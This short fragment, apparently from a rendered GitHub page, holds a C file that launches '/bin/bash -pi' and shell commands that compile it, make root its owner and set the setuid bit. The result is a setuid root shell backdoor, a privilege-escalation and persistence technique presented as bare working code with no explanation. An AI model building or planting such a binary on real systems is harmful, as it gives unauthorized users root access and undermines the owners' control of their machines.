 system.c:
```c
int main() {
    system("/bin/bash -pi");
}
```

```bash
gcc system.c -o system
chown root:root system
chmod +s system
```
